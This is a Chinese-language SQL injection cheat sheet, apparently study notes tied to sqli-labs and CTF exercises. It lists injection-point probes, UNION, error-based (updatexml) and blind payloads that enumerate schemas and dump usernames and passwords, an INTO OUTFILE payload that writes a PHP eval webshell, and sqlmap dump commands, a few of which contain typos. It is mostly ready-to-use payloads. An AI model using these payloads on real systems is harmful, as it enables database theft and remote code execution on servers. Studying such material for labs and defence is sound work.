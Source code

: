 # SQL注入

## 联合查询

### 判断注入点

`?id=1'`

`?id=1"`

`?id=1')`

`?id=1' and '1'='2`

测试`'s"\`

### 爆列数

`?id=1' order by 1` 

### 查回显

`?id=-1' union select 1,2,3#`

### 爆库名

`?id=-3") union select 1,2,database()#`

### 爆表名

`?id=-3") union select 1,group_concat(table_name),3 from information_schema.tables where table_schema=database()`

### 爆字段名

`?id=-3") union select 1,2,group_concat(column_name)from information_schema.columns where table_name='users'--+`



可用`sys.schema_auto_increment_columns`代替`information_schema`

### 爆数据

`?id=-3") union select 1,2,group_concat(0x5c,username,0x5c,password)from users--+`

`') union select 1,group_concat(schema_name),3 from information_schema.schemata #`

## 报错查询

库名 

`?id=1 and updatexml(1,concat(0x5c,(select database())),1)--+`

表名

`?id=1 and updatexml(1,concat(0x5c,(select group_concat(table_name) from information_schema.tables where table_schema=‘sqli’)),1)#`

列名

`?id=1 and updatexml(1,concat(’~’,(select group_concat(column_name) from information_schema.columns where table_name=‘flag’)),1)#`

内容

`?id=1 and updatexml(1,concat(’~’,(select group_concat(flag) from flag)),1)#`

## 修改表名

修改表名（将表明user改为users）：`alter table user rename to users;`

修改列名（将字段名username改为name）：`alter table users change uesrname name varchar(30);`

## show语句

`1';show database --+`

`1';show tables --+`

`1';show columns from 1919810931114514 --+`

## 文件写入

例：sqlilabs-less7

`loadfile`   `intofile`

`id=-1')) union select 1,"<?php @eval($_GET['cmd']); ?>",3 into outfile "D:\\phpStudy\\2.txt" --+`

## 盲注（布尔盲注/时间盲注）

#### 常用函数

**（1）length()**

length()函数主要返回字符串的长度，使用示例：
构造url：…/id =1’ and length(database())>1 --+
这句话的含义是判断当前数据库名称的长度是否大于1，大于1返回true，否则返回false
**（2）substr()和substring()**

substr()和substring()这两个函数功能一样，都是对字符串进行截片，具体用法为substr(字符串，起始位置，片段长度)（注意：起始位置从1开始计数），使用示例：
构造url：…/id =1’ and ascii(substr(database(),1,1))=97 --+
这句话的含义是判断当前数据库名称的第一个字符的ascii码是否等于97等于返回true，否则返回false
**（3）ascii()**

ascii()函数是将字符转换为ascii码，一定程度上可以让我们碰撞字符串名称的编程更容易实现，使用示例参考（2）
**（4）exists()**

exists()函数是判断查询结果是否为空，如果查询结果不为空返回true，查询结果为空返回false
构造url：…/id=1’ and exists(select table_name from information_schema.tables where table_schema=‘security’ limit 0,1)–+
这句话的含义是探查security数据库中是否存在表，以及通过limit语句探查表的数量

#### SQLMAP使用

爆库名

`python3 sqlmap.py -u "网址" -current-db`

爆表名：

`python3 sqlmap.py -u "网址" -D “库名” --tables`

爆列名：

`python3 sqlmap.py -u "网址" -D 库名 -T 表名 --columns`

查看字段：

`python3 sqlmap.py -u "网址" -D 库名 T 表明 -C 列名 --dump`

